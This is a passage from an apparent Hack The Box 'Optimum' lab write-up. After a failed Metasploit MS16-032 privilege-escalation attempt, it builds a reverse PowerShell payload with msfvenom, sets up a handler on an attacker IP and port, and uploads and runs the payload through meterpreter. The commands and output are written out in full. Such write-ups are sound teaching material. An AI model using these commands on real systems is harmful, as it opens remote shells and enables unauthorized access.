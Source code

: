 ```
[+] Cleaned up C:\Users\kostas\Desktop\cbOzoCyJAykO.txt
[*] Exploit completed, but no session was created.
msf exploit(ms16_032_secondary_logon_handle_privesc) >
```

The ms16\_032\_secondary\_logon\_handle\_privesc exploit was an exploit for Windows 2012 R2 (Build 9600) but it didn’t work and there was no session created. However, there was a manual exploit script for the ms16\_032\_secondary\_logon\_handle\_privesc and I will use that exploit to have a root access on the system.

So I downloaded the exploit from exploitdb.

https://www.exploit-db.com/exploits/39719/

The exploit was a powershell script. So for the exploit to work, I needed to have an interactive powershell access on the system to run the script, so what I did was to create a reverse powershell payload using msfvenom.

```
root@kali:~/Documents/HTB/Optimum# msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.14.116 LPORT=5555 -f exe > shell.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1802 bytes
Final size of exe file: 8192 bytes
```

After the payload was created, I fired up metasploit on the other tab to use the handler to catch the reverse powershell.

Reverse Powershell Tab

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload payload/windows/x64/powershell_reverse_tcp
[-] The value specified for payload is not valid.
msf exploit(handler) > set payload windows/x64/powershell_reverse_tcp
payload => windows/x64/powershell_reverse_tcp
msf exploit(handler) > set LHOST 10.10.14.116
LHOST => 10.10.14.116
msf exploit(handler) > set LPORT 5555
LPORT => 5555
msf exploit(handler) > exploit -j -z
[*] Exploit running as background job 0.
msf exploit(handler) > 
[*] Started reverse SSL handler on 10.10.14.116:5555

msf exploit(handler) >
```

After creating the handler I uploaded and executed the reverse powershell.

```
meterpreter > pwd
C:\Users\kostas\Desktop
meterpreter > upload shell.exe
[*] uploading : shell.exe -> shell.exe
[*] uploaded : shell.exe -> shell.exe
meterpreter > execute -f shell.exe
```

